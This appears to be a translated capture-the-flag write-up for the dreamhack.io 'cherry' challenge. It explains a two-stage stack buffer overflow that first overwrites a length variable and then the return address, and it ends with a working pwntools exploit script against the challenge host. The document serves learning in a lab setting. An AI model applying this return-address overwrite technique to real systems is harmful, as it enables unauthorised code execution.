


# dreamhack.io: cherry

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224325039203). Translated and reformatted in English.

No excute is set.

The goal seems to be to execute the flag function. This code has a stack overflow vulnerability. In particular, the buf size is 6 bytes, but 16 bytes are being read.

The important thing is that since it is strncmp(buf, "cherry", 6), only the first 6 bytes need to be cherry, and anything can be put in the last digits. So, it seems that the code moves to the flag() function address instead of the original return address when the main function ends.

To find the detailed offset and address of the flag() function, you probably need to check the main stack frame with gdb.

For reference, the address of the flag function can be obtained with shell = e.symbols['flag']!

This is the main stack frame that I confirmed by analyzing the gdb assembly language.

high address

────────────────────────

rbp+0x08 saved RIP ← Jump here when ret

rbp+0x00 saved RBP

────────────────────────

rbp-0x04 stdin_fd = 0

rbp-0x08 stdout_fd = 1

rbp-0x0c buf_size = 0x10

rbp-0x12 fruit[6] = "cherry"

rbp-0x18 buf[6]

rbp-0x24 argc

rbp-0x30 argv

────────────────────────

low address

At first input, buf is 6 bytes, but only 16 bytes can be read.

So the first read can only cover so far.

rbp-0x18 ~ rbp-0x13 buf[6]

rbp-0x12 ~ rbp-0x0d fruit[6]

rbp-0x0c ~ rbp-0x09 buf_size part

In other words, it is far from enough to cover ret. Even if you add the second one, the fruit is also 6 bytes, so only 16 bytes are read and it cannot reach the read.

However, during the second input, the value of buf_size has already been overwritten on the stack, so more can be used.

If you show it as an image:

offset 0~5 → buf = "cherry"

offset 6~11 → fruit = "AAAAAA"

offset 12~15 → buf_size = "AAAA"

After that,

fruit - rbp (right before reach the ret address)

(rbp+0x08) - (rbp-0x12)

= 0x1a

= 26 bytes

Because

from pwn import *
p = remote('host3.dreamhack.games', 20689)
e = ELF('./chall')

address = e.symbols['flag']

p.recvuntil(b': ')

payload = b'cherry'
payload += b'A'*10
p.send(payload)
p.recvuntil(': ')

payload = b'a'*26
payload += p64(address)

p.send(payload)
p.interactive()

Good!
